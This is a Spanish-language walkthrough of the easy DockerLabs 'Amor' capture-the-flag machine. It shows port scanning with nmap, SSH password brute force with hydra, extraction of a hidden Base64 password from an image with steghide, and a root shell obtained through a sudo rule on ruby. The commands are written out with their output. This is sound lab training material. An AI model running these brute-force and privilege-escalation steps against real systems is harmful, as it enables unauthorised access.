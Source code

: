 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Amor DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip amor.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh amor.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:33 EST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos en la pagina veremos el siguiente nombre en este apartado:

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos tendremos un nombre de usuario, vamos a probar a realizar fuerza bruta con `hydra`.

## Escalate user carlota

### Hydra

```shell
hydra -l carlota -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 12:36:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 12:36:22
```

Vemos que hemos obtenido unas credenciales, por lo que entraremos por `SSH`.

### SSH

```shell
ssh carlota@<IP>
```

Metemos como contraseña `babygirl` y veremos que estamos dentro.

## Escalate user oscar

Si nos vamos a la siguiente ruta:

```shell
cd /home/carlota/Desktop/fotos/vacaciones
```

Veremos un archivo llamado `imagen.jpg`, que podemos sospechar de que pueda tener algo en su interior, ya que no encontramos ningun vector de entrada mas, por lo que nos lo pasaremos a nuestro `host`.

```shell
python3 -m http.server
```

Y ahora en nuestro `host` ejecutaremos lo siguiente:

```shell
wget http://<IP>:8000/imagen.jpg
```

Ahora veremos que tiene algo dentro con el siguiente comando:

```shell
steghide extract -sf imagen.jpg
```

Info:

```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Vemos que nos extrae un archivo llamado `secret.txt` y si lo leemos veremos lo siguiente:

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Por lo que vemos esta en `Base64`, y si lo decodificamos quedara de esta forma:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

Info:

```
eslacasadepinypon
```

Por lo que vemos puede ser la contraseña de algun usuario del sistema, por lo que vamos a probar con el siguiente usuario.

```shell
su oscar
```

Metemos como contraseña `eslacasadepinypon` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for oscar on caa1dc877f39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on caa1dc877f39:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@caa1dc877f39:/home/carlota/Desktop/fotos/vacaciones# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
